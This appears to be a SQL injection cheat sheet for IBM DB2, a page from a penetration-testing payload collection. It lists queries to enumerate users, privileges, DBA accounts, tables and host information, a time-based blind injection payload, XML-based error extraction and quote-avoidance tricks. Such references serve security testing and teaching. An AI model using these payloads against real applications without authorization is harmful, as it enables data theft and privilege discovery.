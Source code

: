 # DB2 Injection

> IBM FB2 is a family of relational database management products developed by IBM, designed to efficiently store, analyze, and retrieve large amounts of data. Originally created for IBM mainframes, FB2 has evolved to support various platforms, including Windows, Linux, and UNIX systems.

## Summary

* [DB2 Cheatsheet](#db2-cheatsheet)
* [References](#references) 

## DB2 Cheatsheet

### Version

```sql
select versionnumber, version_timestamp from sysibm.sysversions;
select service_level from table(sysproc.env_get_inst_info()) as instanceinfo
select getvariable('sysibm.version') from sysibm.sysdummy1 -- (v8+)
select prod_release,installed_prod_fullname from table(sysproc.env_get_prod_info()) as productinfo
select service_level,bld_level from sysibmadm.env_inst_info
```

### Comments	

```sql
select blah from foo -- comment like this (double dash)
```

### Current User

```sql
select user from sysibm.sysdummy1
select session_user from sysibm.sysdummy1
select system_user from sysibm.sysdummy1
```

### List Users

DB2 uses OS accounts

```sql
select distinct(authid) from sysibmadm.privileges -- priv required
select grantee from syscat.dbauth -- incomplete results
select distinct(definer) from syscat.schemata -- more accurate
select distinct(grantee) from sysibm.systabauth -- same as previous
```

### List Privileges

```sql
select * from syscat.tabauth -- shows priv on tables
select * from syscat.tabauth where grantee = current user -- shows privs for current user
select * from syscat.dbauth where grantee = current user;;
select * from SYSIBM.SYSUSERAUTH — List db2 system privilegies
```

### List DBA Accounts	

```sql
select distinct(grantee) from sysibm.systabauth where CONTROLAUTH='Y'
select name from SYSIBM.SYSUSERAUTH where SYSADMAUTH = ‘Y’ or SYSADMAUTH = ‘G’
```

### Current Database	

```sql
select current server from sysibm.sysdummy1
```

### List Databases

```sql
select distinct(table_catalog) from sysibm.tables
SELECT schemaname FROM syscat.schemata;
```

### List Columns

```sql
select name, tbname, coltype from sysibm.syscolumns -- also valid syscat and sysstat
```

### List Tables

```sql
select table_name from sysibm.tables
select name from sysibm.systables
```

### Find Tables From Column Name	

```sql
select tbname from sysibm.syscolumns where name='username'
```

### Select Nth Row

```sql
select name from (select * from sysibm.systables order by name asc fetch first N rows only) order by name desc fetch first row only
```

### Select Nth Char	

```sql
select substr('abc',2,1) FROM sysibm.sysdummy1 -- returns b
```

### Bitwise AND/OR/NOT/XOR

```sql
select bitand(1,0) from sysibm.sysdummy1 -- returns 0. Also available bitandnot, bitor, bitxor, bitnot
```

### ASCII Value

```sql
Char	select chr(65) from sysibm.sysdummy1 -- returns 'A'
```

### Char -> ASCII Value	

```sql
select ascii('A') from sysibm.sysdummy1 -- returns 65
```

### Casting

```sql
select cast('123' as integer) from sysibm.sysdummy1
select cast(1 as char) from sysibm.sysdummy1
```

### String Concat

```sql
select 'a' concat 'b' concat 'c' from sysibm.sysdummy1 -- returns 'abc'
select 'a' || 'b' from sysibm.sysdummy1 -- returns 'ab'
```


### IF Statement
Seems only allowed in stored procedures. Use case logic instead.

### Case Statement

```sql
select CASE WHEN (1=1) THEN 'AAAAAAAAAA' ELSE 'BBBBBBBBBB' END from sysibm.sysdummy1
```


### Avoiding Quotes

```sql
SELECT chr(65)||chr(68)||chr(82)||chr(73) FROM sysibm.sysdummy1 -- returns “ADRI”. Works without select too
```

### Time Delay

Heavy queries, for example: If user starts with ascii 68 ('D'), the heavy query will be executed, delaying the response. 
However, if user doesn't start with ascii 68, the heavy query won't execute and thus the response will be faster.
```sql
' and (SELECT count(*) from sysibm.columns t1, sysibm.columns t2, sysibm.columns t3)>0 and (select ascii(substr(user,1,1)) from sysibm.sysdummy1)=68 
```

### Serialize to XML (for error based)

```sql
select xmlagg(xmlrow(table_schema)) from sysibm.tables -- returns all in one xml-formatted string
select xmlagg(xmlrow(table_schema)) from (select distinct(table_schema) from sysibm.tables) -- Same but without repeated elements
select xml2clob(xmelement(name t, table_schema)) from sysibm.tables -- returns all in one xml-formatted string (v8). May need CAST(xml2clob(… AS varchar(500)) to display the result.
```

### Command Execution and Local File Access

Seems it's only allowed from procedures or UDFs.

### Hostname/IP and OS INFO

```sql
select os_name,os_version,os_release,host_name from sysibmadm.env_sys_info -- requires priv
```

### Location of DB Files

```sql
select * from sysibmadm.reg_variables where reg_var_name='DB2PATH' -- requires priv
```

### System Config

```sql
select dbpartitionnum, name, value from sysibmadm.dbcfg where name like 'auto_%' -- Requires priv. Retrieve the automatic maintenance settings in the database configuration that are stored in memory for all database partitions.
select name, deferred_value, dbpartitionnum from sysibmadm.dbcfg -- Requires priv. Retrieve all the database configuration parameters values stored on disk for all database partitions.
```

### Default System Database

* SYSIBM
* SYSCAT
* SYSSTAT
* SYSPUBLIC
* SYSIBMADM
* SYSTOOLs


## References

* [DB2 SQL injection cheat sheet - Adrián - 20/05/2012](https://securityetalii.es/2012/05/20/db2-sql-injection-cheat-sheet/)
* [DB2 SQL Injection Cheat Sheet - pentestmonkey](http://pentestmonkey.net/cheat-sheet/sql-injection/db2-sql-injection-cheat-sheet)
